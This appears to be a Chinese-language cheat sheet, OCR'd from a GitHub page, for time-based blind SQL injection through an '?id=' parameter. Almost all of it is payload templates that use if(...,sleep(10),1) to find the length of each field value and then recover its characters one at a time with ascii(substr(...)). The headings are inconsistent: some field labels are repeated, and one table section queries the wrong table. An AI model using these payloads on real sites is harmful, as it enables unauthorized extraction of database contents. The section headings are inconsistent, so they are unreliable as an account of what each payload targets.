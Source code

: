    1. 第一个表

      1. 第一个字段

         ```mysql
         第一个字段第一个数据 : 
         	?id=1" and if((select length(第一个字段) from 第一个表 limit 0,1) = 长度,sleep(10),1)-- qwe
         ```

         ```mysql
         第一个字段第二个数据 : 
         	?id=1" and if((select length(第一个字段) from 第一个表 limit 1,1) = 长度,sleep(10),1)-- qwe
         ```

      2. 第二个字段

         ```mysql
         第一个字段第一个数据 : 
         	?id=1" and if((select length(第二个字段) from 第一个表 limit 0,1) = 长度,sleep(10),1)-- qwe
         ```

         ```mysql
         第一个字段第二个数据 : 
         	?id=1" and if((select length(第二个字段) from 第一个表 limit 1,1) = 长度,sleep(10),1)-- qwe
         ```

   2. 第二个表

      1. 第一个字段

         ```mysql
         第一个字段第一个数据 : 
         	?id=1" and if((select length(第一个字段) from 第二个表 limit 0,1) = 长度,sleep(10),1)-- qwe
         ```

         ```mysql
         第一个字段第二个数据 : 
         	?id=1" and if((select length(第一个字段) from 第二个表 limit 1,1) = 长度,sleep(10),1)-- qwe
         ```

      2. 第二个字段

         ```mysql
         第一个字段第一个数据 : 
         	?id=1" and if((select length(第一个字段) from 第二个表 limit 0,1) = 长度,sleep(10),1)-- qwe
         ```

         ```mysql
         第一个字段第二个数据 : 
         	?id=1" and if((select length(第一个字段) from 第二个表 limit 1,1) = 长度,sleep(10),1)-- qwe
         ```

      3. 第二个表

         1. 第一个字段

            ```mysql
            第一个数据 : 
            	?id=1" and if(ascii(substr((select 第一个字段 from 第一个表 limit 0,1),1,1)) = ascii数字对应字符,sleep(10),1)-- qwe
            	?id=1" and if(ascii(substr((select 第一个字段 from 第一个表 limit 0,1),2,1)) = ascii数字对应字符,sleep(10),1)-- qwe
            ```
